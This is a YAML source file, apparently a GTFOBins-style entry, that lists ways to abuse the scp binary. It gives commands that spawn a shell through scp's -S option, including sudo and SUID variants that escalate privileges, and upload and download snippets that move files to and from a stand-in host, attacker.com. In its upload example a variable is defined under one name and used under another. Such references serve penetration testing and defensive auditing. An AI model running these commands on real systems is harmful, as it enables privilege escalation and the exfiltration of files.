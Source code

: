 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        scp -S $TF x y:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        ./scp -S $TF a b:
---
```

